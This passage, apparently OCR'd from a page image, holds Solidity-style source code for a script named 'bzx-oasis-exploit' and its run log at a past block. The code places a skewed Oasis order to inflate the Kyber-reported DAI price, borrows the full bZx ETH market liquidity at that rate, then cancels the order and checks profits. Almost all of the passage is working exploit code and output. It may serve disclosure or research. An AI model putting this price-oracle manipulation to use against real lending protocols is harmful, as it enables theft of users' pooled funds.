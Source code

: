 ```text
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 1 ether;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(DAI, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    uint private id;
    
    uint constant daiBidAmount = 1 ether;
    uint constant ethOfferAmount = 10 ether;
    function makeOrder() external {
        WETH.deposit.value(ethOfferAmount)();
        WETH.approve(address(MATCHING_MARKET), ethOfferAmount);
        id = MATCHING_MARKET.offer(ethOfferAmount, WETH, daiBidAmount, DAI);
        printf("made order id=%u\n", abi.encode(id));
        
        require(MATCHING_MARKET.insert(id, 0));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_ETH, false, BZX_ETH.marketLiquidity(), WETH, DAI);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        require(MATCHING_MARKET.cancel(id));
        DAI.giveAllToUniswap();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        WETH.deposit.value(amount)();
    }
    
    function borrowCollateral(uint amount) internal {
        DAI.getFromUniswap(amount);
    }
}

/*
### running script "bzx-oasis-exploit" at block 8455720
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=1.000000000000000000 rate=0.005950387240736517 slippage=0.005771875623514421
##### calling: makeOrder()
made order id=414191
##### calling: checkRates()
checking rates tokens=1.000000000000000000 rate=9.975000000000000000 slippage=9.675750000000000000
##### calling: borrow()
collateral_required=398.831304885561111810, interest_required=203.458599916962956188
```